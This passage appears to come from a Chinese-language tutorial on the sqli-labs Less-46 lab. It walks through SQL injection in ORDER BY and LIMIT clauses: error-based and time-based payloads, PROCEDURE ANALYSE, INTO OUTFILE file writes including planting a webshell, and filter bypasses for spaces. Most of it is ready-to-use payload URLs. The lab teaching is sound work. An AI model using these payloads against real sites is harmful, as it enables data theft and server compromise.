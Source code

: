 接下来我们用rand()进行演示一下，因为上面提到rand(true)和rand(false)结果是不一样的。

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort=rand(ascii(left(database(),1))=115)
http://127.0.0.1/sqli-labs/Less-46/?sort=rand(ascii(left(database(),1))=116)
从上述两个图的结果，对比rand(ture)和rand(false)的结果，可以看出报错注入是成功的。
```

延时注入例子

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort= (SELECT IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1)
http://127.0.0.1/sqli-labs/Less-46/?sort=1 and If(ascii(substr(database(),1,1))=116,0,sleep(5))
```

同时也可以用?sort=1 and 后添加注入语句。

### procedure analyse 参数后注入

此方法适用于MySQL 5.x中，在limit语句后面的注入

利用procedure analyse 参数，我们可以执行报错注入。同时，在procedure analyse 和order by 之间可以存在limit 参数，我们在实际应用中，往往也可能会存在limit 后的注入，可以利用procedure analyse 进行注入。

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort=1  procedure analyse(extractvalue(rand(),con
cat(0x3a,version())),1)
//SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); 
如果不支持报错注入的话，还可以基于时间注入：
//SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

### 导入导出文件into outfile 参数

```mysql
http://127.0.0.1/sqli-labs/Less-46/?sort=1 into outfile "c:\\wamp\\www\\sqllib\\test
1.txt"
将查询结果导入到文件当中
那这个时候我们可以考虑上传网马，利用lines terminated by
Into outtfile c:\\wamp\\www\\sqllib\\test1.txt lines terminated by 0x(网马进行16 进制转
换)
```

## 绕过过滤

### 空格被过滤

```auto
/**/替代空格
%09 TAB 键（水平）
%0a 新建一行
%0c 新的一页
%0d return 功能
%0b TAB 键（垂直）
%a0 空格
() 代替空格，在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。
```
